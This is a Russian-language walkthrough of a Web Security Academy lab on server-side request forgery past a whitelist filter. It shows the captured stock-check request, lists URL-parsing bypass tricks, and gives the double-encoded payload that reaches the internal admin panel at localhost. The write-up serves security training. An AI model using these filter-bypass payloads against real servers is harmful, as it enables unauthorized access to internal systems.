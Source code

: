 Есть функция проверки запасов, которая извлекает данные из внутренней системы.

## Дано

...

## Задача

измените URL-адрес проверки запасов, чтобы получить доступ к интерфейсу администратора по адресу `http://localhost/admin` и удалить пользователя `carlos`.

# Разведка

перейдём сразу к проверки запасов 

Формат запроса
```
POST /product/stock HTTP/2
Host: 0ace00b903fd682082b229cb00620064.web-security-academy.net
Cookie: session=eQC4YohXiObtnaHFRf17vWaPU1vRucB9
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: */*
Accept-Language: ru-RU,ru;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate, br
Referer: https://0ace00b903fd682082b229cb00620064.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 107
Origin: https://0ace00b903fd682082b229cb00620064.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Sec-Gpc: 1
Priority: u=0
Te: trailers

stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D2
```

- `stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D2` - кодировка только спец символов url
- `http://stock.weliketoshop.net:8080/product/stock/check?productId=1&storeId=2` - ответ 200

- При изменение url адреса выводит ошибку `"External stock check host must be stock.weliketoshop.net"`  что означает проверку хоста

#### Проверка фильтра на основе белого списка

- ==Можно встроить учетные данные в URL-адрес перед именем хоста, используя `@` характер. Например:==
    ==`https://hack@example.com==
	==В зависимости от анализатора URL-адресов он может обработать `https://hack` или `https://example.com`==
==Уязвим==

- ==Можно использовать `#` символ в URL. Например:==    
    ==`https://evil-host#comment`==
    ==`#` - отбрасывает всё то что после неё==
==Уязвим==

- Использовать `#` символ, обозначающий фрагмент URL. Например:    
    `https://evil-host#expected-host`

- Использовать иерархию имен DNS, чтобы поместить необходимые входные данные в полное DNS-имя, которым вы управляете. Например:
    `https://expected-host.evil-host`

- Закодировать символы URL-адреса, чтобы запутать код анализа URL-адресов. 

- Использовать комбинации этих техник вместе.

# Атака

- `http://test@stock.weliketoshop.net:8080`  - ответ ошибка что не смогли подключиться к серверу

- `http://test#@stock.weliketoshop.net:8080` - ответ о том что сервер одобряет только stock.weliketoshop.net, значит анализатор работает по пути `http://test`

- `http%3a//test%2523%40stock.weliketoshop.net%3a8080` - ответ 500, закодировали два раза # (ошибка "Не удалось подключиться к внешней службе проверки запасов")

- `http%3a//localhost%2523%40stock.weliketoshop.net%3a8080` - ответ 200 мы зашли 

- `http%3a//localhost%2523%40stock.weliketoshop.net%3a8080/admin` - вошли в админ панель